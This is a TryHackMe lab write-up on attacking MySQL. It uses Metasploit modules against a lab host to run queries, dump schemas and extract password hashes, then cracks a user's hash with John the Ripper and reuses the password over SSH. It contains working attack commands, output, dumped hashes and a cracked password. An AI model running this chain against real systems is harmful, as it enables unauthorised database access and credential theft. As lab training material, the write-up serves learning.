 # Enumerating MySQL

References:
- [TryHackMe: Network Services 2](https://tryhackme.com/r/room/networkservices2)
- [Blog: Enumerating and Exploiting MySQL](https://andickinson.github.io/blog/enumerating-and-exploiting-mysql/)

---

## 1. Access DB

### Install MySQL:
```bash
sudo apt install default-mysql-client
```

Try passwords:

'' (empty)

password

Great, now close the MySQL connection.

## 2. Exploitation

Open Metasploit:

```bash
msfconsole
```

Search for mysql_sql:
```bash
search mysql_sql
Use the auxiliary module:
use auxiliary/admin/mysql/mysql_sql
```

Set options:
```bash
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Result:
```bash
10.10.210.104:3306 - Sending statement: 'select version()'...
[*] 10.10.210.104:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
```


Show databases:
```bash
set SQL "show databases"
run
```

Result:
```bash
[*] 10.10.210.104:3306 - Sending statement: 'show databases'...
[*] 10.10.210.104:3306 -  | information_schema |
[*] 10.10.210.104:3306 -  | mysql |
[*] 10.10.210.104:3306 -  | performance_schema |
[*] 10.10.210.104:3306 -  | sys |
[*] Auxiliary module execution completed
```

Search for and select the mysql_schemadump:
```bash
search mysql_schemadump
```

Get the last table that gets dumped:
```bash
use auxiliary/scanner/mysql/mysql_schemadump
options
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Table Name:
```bash
TableName: x$waits_global_by_latency
```

Select the mysql_hashdump module:
```bash
search mysql_hashdump
use auxiliary/scanner/mysql/mysql_hashdump
```

Set the relevant options and run the exploit:
```bash
options
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Result:
```bash
[+] 10.10.210.104:3306 - Saving HashString as Loot: root:
[+] 10.10.210.104:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.210.104:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.210.104:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.210.104:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.210.104:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.210.104:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## 3. Crack Password
```php
User: carl
Copy the hash string in full (e.g., bob:*HASH) to a text file on your local 
```

machine called hash.txt:
```bash
touch hash.txt
vi hash.txt
Ctrl+Shift+V
Shift+:
wq
```

Crack password:
```bash
john hash.txt
```

Result:
```bash
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/john/password.lst
Proceeding with incremental:ASCII
doggie           (carl)
1g 0:00:00:02 DONE 3/3 (2024-11-14 09:45) 0.4545g/s 1039Kp/s 1039Kc/s 1039KC/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


## 4. Access Shell

What are the chances that this user has reused their password for a different service?
```bash
Copiar código
ssh carl@10.10.210.104
Password: doggie
```

```bash
Copiar código
ls
cat MySQL.txt
```